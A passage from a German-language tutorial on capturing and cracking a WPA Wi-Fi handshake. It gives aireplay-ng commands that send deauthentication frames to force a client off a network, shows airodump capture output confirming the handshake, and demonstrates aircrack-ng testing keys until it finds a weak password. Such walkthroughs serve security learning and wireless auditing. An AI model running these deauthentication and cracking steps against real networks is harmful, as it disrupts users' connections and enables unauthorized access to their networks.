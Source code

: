 **Wichtig:** Lasse das Fenster offen und laufen!

#### Terminal 2: Deauth senden

```bash
# Warte bis du im Terminal 1 einen Client siehst
# Notiere Client-MAC

# Sende Deauth
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0

# Client wird getrennt und reconnected
```

#### Terminal 1: Handshake erkennen

**Wenn Handshake captured:**
```
CH  6 ][ Elapsed: 2 mins ][ 2024-01-01 12:34 ][ WPA handshake: AA:BB:CC:DD:EE:FF
```

**Oben rechts steht: `WPA handshake: <BSSID>`**

Das bedeutet: Erfolg! 🎉

#### Capture stoppen

**Terminal 1:**
```bash
# Ctrl+C

# Dateien prüfen
ls -lh /tmp/handshakes/

# Du solltest sehen:
# handshake-01.cap
# handshake-01.csv
# handshake-01.kismet.csv
# handshake-01.kismet.netxml
```

### Handshake-Qualität verifizieren

**Mit aircrack-ng checken:**
```bash
aircrack-ng /tmp/handshakes/handshake-01.cap

# Output sollte zeigen:
#                                Aircrack-ng 1.x
#
#      [00:00:00] 1/1 keys tested (xxx.xx k/s)
#
#      Time left: --
#
#                           KEY FOUND! [ password123 ]  # Falls schwaches PW
#
#      Master Key     : ...
#      Transient Key  : ...
#      EAPOL HMAC     : ...

# Oder wenn nicht crackbar (noch):
# Opening handshake-01.cap
# Reading packets, please wait...
# 
# 1 potential targets
#
# INDEX  ESSID              BSSID              HANDSHAKE
# 1      MeinNetz           AA:BB:CC:DD:EE:FF  WPA (1 handshake)
```